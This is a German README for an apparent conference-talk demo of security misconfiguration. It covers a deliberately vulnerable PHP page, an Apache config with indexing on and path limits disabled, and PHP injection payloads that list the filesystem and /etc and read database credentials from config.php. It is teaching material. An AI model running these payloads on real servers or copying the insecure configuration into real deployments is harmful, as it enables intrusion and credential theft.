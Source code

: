 # ITS2023 Security Misconfiguration Demonstration

Dieses Projekt dient als Demonstrationsbeispiel für unseren Vortrag über `Security Misconfiguration`.

>*WICHTIG:* Dieses Projekt sollte `NIEMALS` ausserhalb einer geschützten Umgebung ausgeführt werden!!!

# Dateiübersicht

```Text
.                                       Apache2 Webroot /var/www/html
├── README.md
├── docker-compose.yml                  Docker-Compose Datei
|
├── config.php                          Zugangsdaten für z.b. MYSQL DB
├── mysite                              Root der demo Webseite
│   ├── execute.php                     PHP Script welches anfällig für PHP Injection ist
│   └── index.html                      Einstiegspunkt der Webseite
|
└── test-httpd.conf                     Apache Konfiguration
```

## httpd.conf

```conf
<VirtualHost *:80>
    DocumentRoot /var/www/html

    <Directory /var/www/html>
        Options Indexes FollowSymLinks          # erlaubt indexing durch webserver
        # php_admin_value open_basedir /var/www/html    # Limitiert PHP Dateisystemzugriffe auf webroot
        # php_admin_value doc_root /            # Updated PHP Dateisystem root
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

```

## docker-compose.yml

```yml
version: '3.1'

services:
  php:
    image: php:apache
    volumes:
      - ./:/var/www/html/
      - ./test-httpd.conf:/etc/apache2/sites-available/000-default.conf
    restart: unless-stopped
```

# Getting started



> Im Projektverzeichnis  
`docker-compose up -d`  
ausführen.

> Webserver neustarten  
`docker-compose restart`  

Webseite findet sich unter [http://localhost:8080/mysite](http://localhost:8080/mysite)

# PHP Injection Beispiele

## PHP Script Arbeitsverzeichnis ausgeben
```PHP
echo getcwd();
```
## Dateien im Sever Dateisystem Root ausgeben

### Simple
```PHP
$files = scandir('/'); $output = implode("\n", $files); echo $output;
```

### Tree
```PHP
function list_directory($directory, $level = 0, $prefix = '') {
    $files = scandir($directory);

    // Filter out the '.' and '..' entries
    $files = array_filter($files, function ($file) {
        return $file != '.' && $file != '..';
    });

    $count = count($files);

    foreach ($files as $i => $file) {
        $isLast = $i === $count - 1;

        // Prepare the prefix for child nodes
        $childPrefix = $prefix . ($isLast ? '    ' : '│   ');

        // Display the tree branch
        echo $prefix . ($isLast ? '└── ' : '├── ') . $file;

        $path = $directory . '/' . $file;

        if (!file_exists($path) || !is_readable($path)) {
            echo " (not readable or doesnt exist) <br>";
            continue;
        }

        // Display file details similar to 'ls -la'
        $info = new SplFileInfo($path);
        $type = $info->getType();
        $permissions = substr(sprintf('%o', $info->getPerms()), -4);
        $size = $info->getSize();
        $modified = date('Y-m-d H:i:s', $info->getMTime());

        echo " ({$type}, permissions: {$permissions}, size: {$size} bytes, last modified: {$modified})<br>";

        // If the file is a directory, list its contents
        if (is_dir($path)) {
            list_directory($path, $level + 1, $childPrefix);
        }
    }
}

list_directory('/etc');
```

## Datenbankverbindungsinformationen auslesen

### Mit bekannten Variablennamen
```PHP
include '/var/www/html/config.php'; echo DB_HOST . "\n"; echo DB_USER . "\n"; echo DB_PASSWORD . "\n"; echo DB_NAME . "\n";
```

### Via fopen
```PHP
$filename = '../config.php';
$file = fopen($filename, 'r');
if ($file) {
    while (($line = fgets($file)) !== false) {
        echo htmlspecialchars($line);
    }
    fclose($file);
} else {
    echo 'Error opening file.';
}
```

## Wie verhindern?
- Dokumentation lesen / System verstehen
- Entwicklungsumgebung und Produktivumgebung *trennen*
- Immer nur das *mindeste* an Berechtigungen geben
- `Best practice` *verwenden*
- ...
